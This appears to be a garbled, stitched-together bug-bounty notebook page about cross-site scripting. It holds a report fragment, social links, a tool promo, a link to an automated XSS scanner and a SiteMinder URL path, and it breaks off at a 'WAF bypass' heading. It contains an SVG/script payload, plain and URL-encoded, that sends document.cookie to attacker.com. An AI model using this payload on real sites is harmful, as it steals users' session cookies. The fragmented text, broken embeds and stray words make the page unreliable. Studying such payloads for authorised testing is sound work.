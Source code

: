 Here is a Pop Up I Got:

![](https://miro.medium.com/v2/resize:fit:788/1*xkkbkc9NQsTX7ox_e8cOUQ.jpeg)


	Then I reported to YesWeHack and It was Accepted as a medium.

Follow Creator On Linked in (Most Active):

[https://www.linkedin.com/in/manan-sanghvi-799863176/](https://www.linkedin.com/in/manan-sanghvi-799863176/)

Follow Creator On Twitter:

[https://twitter.com/An____Anonymous](https://twitter.com/An____Anonymous)


---

**knoxss community.**

![None](https://miro.medium.com/v2/resize:fit:700/1*Yigaui5D_8YzsSJT0MgfPw.png)

**This extension will helpful when your website is vulnerable to xss(cross site scripting).**


<iframe width="361" height="642" src="https://www.youtube.com/embed/jhjXDPHJhq8" title="Bug Bounty | Burpsuite Scan for User-Controlled Input -- DOM Injection #bugbounty #cybersecurity" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>


```shell
<svg><script>fetch('http://attacker.com/?cookie=' + document.cookie)</script></svg>Recon

URL encoding:

%3Csvg%3E%3Cscript%3Efetch('http://attacker.com/?cookie=' + document.cookie)%3C/script%3E%3C/svg%3E
```

---

## Automated XSS finding:

git clone tool: https://github.com/sarperavci/MXS

payloads file: ![[xsswafbypss.txt]]
![[Pasted image 20250616193633.png]]


---

#### 1️⃣ Unique keywords in the URL Path

```bash
/siteminderagent/forms/smpwservices.fcc
```

#### 2️⃣ Unicode XSS payload (WAF bypass)
